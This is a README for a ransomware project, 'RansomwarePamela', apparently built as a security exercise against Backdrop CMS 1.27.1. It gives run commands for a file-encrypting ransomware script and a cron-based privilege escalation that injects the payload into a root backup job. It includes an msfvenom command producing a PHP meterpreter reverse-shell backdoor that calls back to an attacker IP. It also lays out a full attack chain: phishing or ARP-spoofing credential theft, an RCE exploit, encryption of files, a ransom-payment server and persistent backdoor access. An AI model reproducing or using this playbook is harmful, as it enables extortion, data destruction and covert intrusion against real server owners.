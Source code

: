 # RansomwarePamela

How to run the encryption/ decryption with the shell file. 

./ransomware "mode" "traversing directory" "extentions" "key" "IV" 

- Mode: mode can be either encrypt or decrypt
- Traversing directory: This is the root directory you'd like the file to start searching in 
- Extentions: These are the extensions of the files you'd like to encrypt. Note that for multiple ones you have to put them with spaces in between. 
- Key: Is the key to encrypt and decrypt with 
- IV: Is the initial vector used in the AES algorithm.

Here you have an example for encryption and decryption. 
- Encryption: ./ransomware.sh "encrypt" "./target_directory" ".json .tsv .yaml" "00112233445566778899aabbccddeeff" "0102030405060708090a0b0c0d0e0f10" 
- Decryption: ./ransomware.sh "decrypt" "./target_directory" ".json .tsv .yaml" "00112233445566778899aabbccddeeff" "0102030405060708090a0b0c0d0e0f10"

Note, first run the encryption. 

How to do the privilege escalation using cron 
first we assume that the user ran these commands to have a frequent backup done: 
1. sudo crontab -e 
2. enter 1 
3. put the following line in the cronjob (this does the backup every 2 minutes)
    */2 * * * * cd "path to the directory" && ./backup.sh
   
Then as the attacker we run the following commands: 
1. In the same directory as the project run this: 
    echo "./ransomware.sh 'encrypt' './target_directory' '.json .tsv .yaml' '00112233445566778899aabbccddeeff' '0102030405060708090a0b0c0d0e0f10'" > input.sh
2. echo -e "chmod +x ransomware.sh \n chmod +x input.sh \n chmod +x backup.php \n ./input.sh \n rm input.sh" >> backup.sh


After the backup is done the script is also ran and the database is encrypted. 
We can further delete or encrypt the backup files as well.
If you want to stup the cron job run the command again and delete the added line.

To create the backdoor:
1. msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=4444 > backup.php (LHOST should be the IP of the attacker and the port is some arbitrary unused one)
2. Open the corresponding msfconsole and access the file remotely for which no admin access is needed- that starts the web shell and exploits the backdoor
=======

## CarDetailing Website Ransomware

### Story

Bob is a small business owner that specialises in car detailing. He has a simple website that allows customers to book their appointments and check information about the business. Because he is running on a small budget he didn't want to invest a lot of money in securing the website but rather have more functionality to serve the customers. Therefore, he hired a developer with the lowest bid he found on a website that offers different services. The website was developed using Backdrop, which is a free and Open Source Content Management System that helps you build modern, comprehensive websites on a reasonable budget. 

Alice a competitor of Bob wants to learn some information about his business model, clients and make some money out of it in the meantime. Therefore, she takes advantage of the vulnerability in Backdrop CMS 1.27.1 to install ransomware inside Bob's server.

#### Steps
This section entails the five steps to successfully achieve the goal of this project, including gaining admin access, run the exploit to import a malicious PHP module. Finally, install and run the ransomware on the target server.
  - Set up a website using Backdrop CMS 1.27.1, with a working database and basic functionality using Backdrop's installation guide here: https://docs.backdropcms.org/documentation/installation-instructions .
  -  Gain admin access to the website. This can be done with one of the following options, but we chose to go with the last one:
       - Brute force the credentials;
       - SQL Injection to bypass authentication;
       - Phishing : We could send him an email claiming that we are the person who was hired to develop the website. We will trick him using typosquatting in the email address and tell him that the website has a problem and he won't be able to serve his customers, so he needs to give us admin access to check it out.
       - Man in the middle attack: We trick the user into thinking he communicates directly with the server by spoofing the server's address and forwarding traffic. This way we intercept the login and steal their credentials.
- Use the exploit Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE) here: https://www.exploit-db.com/exploits/52021 . It allows an authenticated user (admin) to upload a malicious PHP module that can execute arbitrary commands on the underlying server. 
- We can modify the malicious module to create a reverse shell to install the malware on the target server. 
- The installed malware encrypts all files in Bob's server and demands a ransom in return for the decryption key.
     when the ransom pops up on the screen, also does the rotating Pamela Anderson pictures in the background 

The reason why we need the exploit even though we have admin privileges is because Backdrop CMS limits uploading files that suspects might be malicious even for admins. So the exploit tricks it into thinking that the file is legitimate.


# Recreating the whole Ransomware Attack

To recreate the ransomware attack from end to end, follow these steps:

1. **Run the Webutler Web Server**  
   - Set up and run the Webutler web server on one machine.

2. **Network Spoofing**  
   - From the attacker's machine, connect to the network where the victim will log in.  
   - Spoof the address of the server and forward all traffic using tools like `arpspoof` and `mitmweb`.

3. **Intercept Login Request**  
   - Intercept the victim's login request and steal their credentials.

4. **Admin Access**  
   - Using the stolen credentials, log into the web server as an admin.

5. **Prepare Attack Files**  
   - Start a simple Python server on the attacker's machine at the location containing all files needed for the attack.

6. **Upload and Execute Attack Script**  
   - Upload a `.phar` file through the admin panel.  
   - The `.phar` file will automatically execute on the server, download the attack files, and update the backup script.  
   - At this point:
     - All database files on the server will be encrypted.
     - The webpage will display an updated ransom message.

7. **Setup Decryption Server**  
   - Configure a `server.php` file on the attacker's machine to manage the decryption key.  
   - This script will verify payment before sending the decryption key.

8. **Payment Verification**  
   - After the victim provides the payment reference, the attacker's server will verify it.  
   - Upon verification, the server will decrypt the files and delete all attack-related files except the `backup.php`.

9. **Backdoor Setup**  
   - The `backup.php` file will remain on the web server, creating a persistent backdoor.

10. **Backdoor Access**  
    - To utilize the backdoor, the attacker:
      - Starts an `msfconsole`.
      - Accesses the `backup.php` file on the server.
    - No admin access is needed as the file executes automatically, starting a reverse web shell.

Each time the backdoor is accessed, the attacker gains reverse shell access to the server.
!! Currently all the files are configured so that the attacker's IP address is 192.168.1.3 so make sure to update that accordingly, also in the backdoor file

